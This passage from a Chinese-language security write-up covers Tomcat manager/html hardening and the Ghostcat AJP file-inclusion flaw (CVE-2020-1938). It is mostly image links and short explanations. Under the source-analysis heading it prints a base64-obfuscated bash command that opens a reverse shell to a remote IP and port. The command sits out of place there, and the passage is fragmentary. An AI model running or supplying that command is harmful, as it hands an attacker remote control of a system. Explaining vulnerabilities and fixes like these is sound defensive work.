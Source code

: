 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaonCWMBSYMvoWQetGreiaWSdtYnGlQcpuI1kBKLb1cVnO18CPpNk8gZg/640?wx_fmt=jpeg)

分位置 进行不同的载入

比如这里 就应该是 3 个位置

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa2Z6v3XjkKtrLe4gHRj99tuujvL5VIcbptqsG6XRF5rWzB7ibpJibO0zQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qas2G5j1woLuaF7v5INJjQNtnVoCVa4Ria9yfQzFl6xcyKX1RvkJVP2AQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QapiawU5dEOg7m48dEe7KEjZ7Jc4maCicGAtPtFUVJrp3csicw6AH019nfQ/640?wx_fmt=jpeg)

下面和之前的设置 一样

base64 编码 和去掉对勾 默认的 Url 编码

#### 修复建议

1. 取消 manager/html 功能  
2.manager 页面应只允许本地 IP 访问

### Tomcat AJP 文件包含漏洞分析 (CVE-2020-1938)

#### 漏洞简介

由于 Tomcat 在处理`AJP`请求时，未对请求做任何验证

通过设置 AJP 连接器封装的 request 对象的属性，导致产生任意文件读取漏洞和代码执行漏洞！  
CVE-2020-1938 又名 GhostCat，由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源码。

此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

#### 源码分析

漏洞成因是两个配置文件导致

Tomat 在部罢时有两个重要的配置文件`conf/server.xml、conf/web.xml`

前者定义了 Tomcat 启动时涉及的组件属性，其中包含两个 connector(用于处理请求的组件)

如果开启状态下，tomcat 启动后会监听 8080、8009 端口，它们分别负责接受 http、ajp 协议的数据

后者则和普通的 javaWeb 应用一样，用来定义 servlet

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NS4xOTEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}

```

#### 参考链接

https://xz.aliyun.com/t/7325

https://yinwc.github.io/2020/03/01/CVE-2020-1938/

#### 运行过程
